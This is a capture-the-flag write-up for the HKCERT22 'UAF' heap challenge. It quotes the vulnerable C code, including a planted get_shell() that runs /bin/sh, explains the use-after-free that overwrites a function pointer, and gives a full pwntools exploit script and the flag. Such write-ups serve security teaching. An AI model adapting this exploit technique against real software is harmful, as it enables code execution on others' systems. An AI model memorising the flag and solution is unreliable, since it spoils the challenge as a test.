

s# UAF
Challenge details

Analysis
This program has a get_shell() function. The target of this challenge is to execute this function.
void get_shell() {
system("/bin/sh");
}
The add_animal() function will create 2 heap chunks and put in the list.
void add_animal() {
int choice;
int size;
int idx;
Animal* animal;
if (zoo.numOfAnimal >= ZOO_SIZE) {
print("[ERROR] The zoo is full.");
return;
}
for (idx = 0; idx < ZOO_SIZE; idx++) {
if (zoo.animals[idx] == NULL) {
break;
}
}
animal = (Animal*) malloc(sizeof(Animal));
print("Type of animal?");
print("1) Parrot");
print("2) Panda");
while (1) {
printf("> ");
scanf("%d", &choice);
if (choice == 1) {
animal->type = PARROT;
break;
}
if (choice == 2) {
animal->type = PANDA;
break;
}
printf("??\n");
}
animal->speak = speak;
print("How long is the name? (max: 64 characters)");
while (1) {
printf("> ");
scanf("%d", &size);
if (size >= 0 && size < MAX_NAME_SIZE) {
animal->name = (char*) malloc(size);
break;
}
printf("??\n");
}
print("Name of animal?");
printf("> ");
read(0, animal->name, size);
zoo.animals[idx] = animal;
printf("> [DEBUG] Animal is added to zone %d\n", idx);
zoo.numOfAnimal++;
}
The data structure is:
struct Animal
{
speakFunc speak;
enum AnimalType type;
char* name;
};
You can see that there is a function pointer speak which will be called after report_name() function (speak(name)). Our target is overwrite speak with the address of get_shell.
void report_name() {
<SNIP>
zoo.animals[choice]->speak(zoo.animals[choice]->name);
}
Every time a new Animal is created, the pointer will will be inserted to zoo[idx] where idx is the first NULL pointer. Hence, use-after-free (UAF) can be applied. If we can overwrite the address of speak and call report_name(), get_shell() will be called.
void remove_animal() {
int choice;
<SNIP>
free(zoo.animals[choice]->name);
free(zoo.animals[choice]);
printf("> [DEBUG] Animal is removed from zone %d\n", choice);
zoo.numOfAnimal--;
}
We want to make the malloc() allocate location to name that previous allocated to animal. Look at how GDB is executed.
Since the add_animal() request 2 heap chunks at once, the 2 chunks are allocated and freed in pairs.

As we can specify the size of the name, we can allocated name with size 0x40 (2 chunks A: 0x20, B: 0x40), then create an animal with name chunk size 0x20 (2 chunks C: 0x20, D: 0x20). Thus, if these 2 chunks are freed and add a new animal with size 0x20, the chunks A and C will be allocated. If we the name to this animal, the address of speak() of the 2nd animal will be overwritten.

Solution
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
e = ELF('./zoo')
# r = gdb.debug('./zoo', 'b* remove_animal\nc')
r = remote('chal.hkcert22.pwnable.hk', 28235)
def create(size, data):
r.sendlineafter(b'Exit\n> ', b'1')
r.sendlineafter(b'2) Panda', b'1')
r.sendlineafter(b'name? ', str(size).encode())
r.sendafter(b'animal?', data)
def delete(id):
r.sendlineafter(b'Exit\n> ', b'2')
r.sendlineafter(b'(0-9)', str(id).encode())
def report(id):
r.sendlineafter(b'Exit\n> ', b'3')
r.sendlineafter(b'(0-9)', str(id).encode())
# 0
create(0x30, b'AAAAAAAAA')
# 1
create(0x18, b'AAAAAAAAA')
# 2
create(0x18, b'AAAAAAAAA')
# 3
create(0x18, b'AAAAAAAAA')
# 4
create(0x18, b'AAAAAAAAA')
# 5
create(0x18, b'AAAAAAAAA')
# 6
create(0x18, b'AAAAAAAAA')
# 7
create(0x18, b'AAAAAAAAA')
delete(1)
delete(0)
# 8
create(0x18, p64(e.symbols['get_shell']))
report(1)
r.interactive()
Flag
hkcert22{w3L1C0me_70_World_0f_pwN_h34P_z0o}